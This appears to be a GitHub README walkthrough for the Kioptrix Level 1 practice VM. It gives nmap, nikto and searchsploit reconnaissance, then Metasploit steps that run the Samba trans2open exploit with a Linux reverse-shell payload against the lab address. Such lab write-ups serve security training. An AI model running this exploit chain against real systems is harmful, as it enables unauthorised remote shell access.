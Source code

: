 # Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
The following commands can be used to launch Metasploit.
execute 
```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.

```bash
search samba version command to search exploit
```
Use 
```bash 
exploit/linux/samba/trans2open
```

```bash
Options
```   We can use options command to see the options.

Use:-
msf exploit(linux/samba/trans2open) >
```bash
set RHOST <target Ip(10.0.2.5)>
```
msf exploit(linux/samba/trans2open) > 
```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > 
```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > 
```bash 
exploit
```






